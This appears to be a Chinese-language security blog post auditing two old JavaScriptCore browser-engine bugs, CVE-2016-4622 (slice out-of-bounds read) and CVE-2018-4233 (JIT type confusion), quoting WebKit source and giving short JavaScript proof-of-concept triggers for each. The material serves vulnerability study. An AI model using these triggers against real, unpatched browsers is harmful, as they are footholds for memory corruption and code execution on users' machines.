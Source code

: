 ```yaml
---
layout: post
title:  "CVE 代码审计-updating"
categories: pwn
tags: pwn
excerpt: CVE 代码审计-updating
mathjax: true
---
```


* content
{:toc}

### Overview

开这个帖的目的是从代码审计的角度记录一些漏洞的原理，抛开后续利用的部分，保持对代码的敏感。

#### 1. JSC的Array.prototype.slice 越界访问 (CVE-2016-4622)

漏洞存在于JavascriptCore 的 %Array.prototype.slice 。

1. 首先获取array 的长度
2. 将参数（开始和结束的索引参数）转换为int，并将它们限制了[0，length）的长度范围
3. 如果fastpath 可用，把从begin到end的数据拷贝到一个新创建的array中，没有边界检查

问题在于参数转换为int时可以执行到用户定义的代码。参数绑定的valueOf函数会被调用，在这个callback中可以定义array 的长度，造成oob 越界访问

```cpp
EncodedJSValue JSC_HOST_CALL arrayProtoFuncSlice(ExecState* exec)
{
    // http://developer.netscape.com/docs/manuals/js/client/jsref/array.htm#1193713 or 15.4.4.10
    JSObject* thisObj = exec->thisValue().toThis(exec, StrictMode).toObject(exec);
    if (!thisObj)
        return JSValue::encode(JSValue());
    unsigned length = getLength(exec, thisObj);  //[1]
    if (exec->hadException())
        return JSValue::encode(jsUndefined());

    unsigned begin = argumentClampedIndexFromStartOrEnd(exec, 0, length);   // [2]
    unsigned end = argumentClampedIndexFromStartOrEnd(exec, 1, length, length);

    std::pair<SpeciesConstructResult, JSObject*> speciesResult = speciesConstructArray(exec, thisObj, end - begin);
    // We can only get an exception if we call some user function.
    if (UNLIKELY(speciesResult.first == SpeciesConstructResult::Exception))
        return JSValue::encode(jsUndefined());

    if (LIKELY(speciesResult.first == SpeciesConstructResult::FastPath && isJSArray(thisObj))) {  //[3]
        if (JSArray* result = asArray(thisObj)->fastSlice(*exec, begin, end - begin))
            return JSValue::encode(result);
    }

    JSObject* result;
    if (speciesResult.first == SpeciesConstructResult::CreatedObject)
        result = speciesResult.second;
    else
        result = constructEmptyArray(exec, nullptr, end - begin);

    unsigned n = 0;
    for (unsigned k = begin; k < end; k++, n++) {
        JSValue v = getProperty(exec, thisObj, k);
        if (exec->hadException())
            return JSValue::encode(jsUndefined());
        if (v)
            result->putDirectIndex(exec, n, v);
    }
    setLength(exec, result, n);
    return JSValue::encode(result);
}
```

[代码地址](https://github.com/WebKit/webkit/blob/320b1fc3f6f47a31b6ccb4578bcea56c32c9e10b/Source/JavaScriptCore/runtime/ArrayPrototype.cpp#L848)


```cpp
static inline unsigned argumentClampedIndexFromStartOrEnd(ExecState* exec, int argument, unsigned length, unsigned undefinedValue = 0)
{
    JSValue value = exec->argument(argument);
    if (value.isUndefined())
        return undefinedValue;

    double indexDouble = value.toInteger(exec);
    if (indexDouble < 0) {
        indexDouble += length;
        return indexDouble < 0 ? 0 : static_cast<unsigned>(indexDouble);
    }
    return indexDouble > length ? length : static_cast<unsigned>(indexDouble);
}
```

poc

```js
var a = [ ];
for (var i = 0; i < 100; i++) { 
    a.push( i + 0.123);
}
var end = {
    valueOf : function () {
        a.length = 0;
        return 10;
    }
};
a.slice (0,end);
// [0.123,1.123,2.12199579146e-313,0,0,0,0,0,0,0]
```

问题1: 如何确保修改a.length后,a的长度真的改变了 ?

查看a.length 的实现 JSArray::setLength

```cpp
    unsigned lengthToClear = butterfly->publicLength() - newLength;
    unsigned costToAllocateNewButterfly = 64; // a heuristic.
    if (lengthToClear > newLength &&
        lengthToClear > costToAllocateNewButterfly) {
        reallocateAndShrinkButterfly(exec->vm(), newLength);
        return true;
    }
```
将length缩小，要确保lengthToClear 大于64才行，也就是新旧length 的差大于64 。所以创建了100个元素的array


#### 2. JSC的JIT compiler 优化问题(CVE-2018-4233) Pwn2Own '18

优化的目的是检测出冗余的check,并消灭它. 例如

```
v0 = LoadArgument 0  
CheckIsInteger v0
v1 = IntegerAdd v0 , 42  
CheckIsInteger v0  
v2 = IntegerMul v0 , 42
```
其中两次检查v0是否属于int就是冗余的检测，简单的相加后类型不会改变

通过控制流图追踪在每个路径上的check。必须考虑到两次check中object的类型变化,例如

```
v0 = LoadArgument 0 
CheckHasProperty v0 , "foo " 
v1 = LoadProperty v0 , "foo " 
v2 = ToNumber v1 
v3 = NumberAdd v2 , 1
CheckHasProperty v0 , "foo"
StoreProperty v0 , "foo ", v3
```
第二次CheckHasProperty的check就非常必要，在ToNumber的操作过程中可能触发任何Javascript code,foo属性也可能被删除。
为了检测这种情况，编译器需要了解IR中的所有操作及相关的副作用.缺少类型检查可能导致类型混淆漏洞。

CVE-2018-4233 漏洞中假定 CreateThis (用于在constructor中创建新object)没有任何副作用，在优化中消除了多余的check。然而通过Proxy中定义handler的get方法，可以在CreateThis过程中执行任意的javascript code

POC中JIT compiler假设Constructor 函数的第一个参数是double array.而且在开始也check通过，但是check过后，在Proxy callback中修改了array类型导致了double 和 JS value的类型混淆漏洞。


```js
function Constructor(a,v) { 
    a[0] = v;
}
var trigger = false;
var arg = null;
var handler = {
    get(target, prop) {
        if(trigger){
            arg[0] = {};
        }
        return target[prop];
    }
};
var EvilProxy = new Proxy(Constructor, handler);
for(var i=0;i<100000;i++>){
    new EvilProxy([1.1,2.2,3.3],13.37);
}
trigger = true;
arg = [1.1,2.2,3.3]
new EvilProxy(arg,3.54484805889626e−310);
arg[0]
```
3.54484805889626e−310 表示为 0x414141414141 ，被当作一个指针解析，造成了access violation

![](https://raw.githubusercontent.com/pwnkk/pwnkk.github.io/master/_posts/IMG/cve-updating/cve-2018-4233.png)

#### 3.